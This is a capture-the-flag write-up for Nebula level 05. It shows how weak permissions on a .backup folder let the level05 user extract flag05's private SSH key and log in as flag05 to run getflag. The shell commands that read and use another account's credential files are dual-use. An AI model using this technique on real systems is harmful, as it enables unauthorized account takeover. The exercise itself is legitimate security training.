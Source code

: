 ```yaml
---
layout: default
title: "Nebula05"
tags: Nebula
description: "Recovering ssh keys to capture the flag"
---
```



## Level 05

> Check the flag05 home directory. You are looking for weak directory permissions. To do this level, log in as the `level05` account with the password `level05`. Files for this level can be found in `/home/flag05`.

## Source code

There is no source code available for this level.

## Getting the flag

By checking the `flag05` directory we can find unprotected `.backup` folder:

```
level05@nebula:/home/flag05$ ls -lah
total 9.0K
drwxr-x--- 1 flag05 level05   80 2021-06-16 00:17 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
-rw------- 1 flag05 flag05    13 2021-06-16 00:17 .bash_history
-rw-r--r-- 1 flag05 flag05   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag05 flag05  3.3K 2011-05-18 02:54 .bashrc
drwx------ 2 flag05 flag05    60 2021-06-15 23:06 .cache
-rw-r--r-- 1 flag05 flag05   675 2011-05-18 02:54 .profile
drwx------ 2 flag05 flag05    70 2011-11-20 20:13 .ssh
```

Let's check and extract those backups:

```
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ mkdir /tmp/flag05
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp/flag05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/home/flag05/.backup$ cd /tmp/flag05
```

Alright, we got some ssh keys! 

Let's try them out:

```
level05@nebula:/tmp/flag05$ cd .ssh
level05@nebula:/tmp/flag05/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub
level05@nebula:/tmp/flag05/.ssh$ chmod 600 id_rsa
level05@nebula:/tmp/flag05/.ssh$ ssh -i id_rsa flag05@localhost
  
      _   __     __          __     
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ / 
  /_/ |_/\___/_.___/\__,_/_/\__,_/  
                                    
    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

And we got the flag. Pay attention that `chmod 600 id_rsa` and `ssh` with `-i` flag are required to use this private key. 
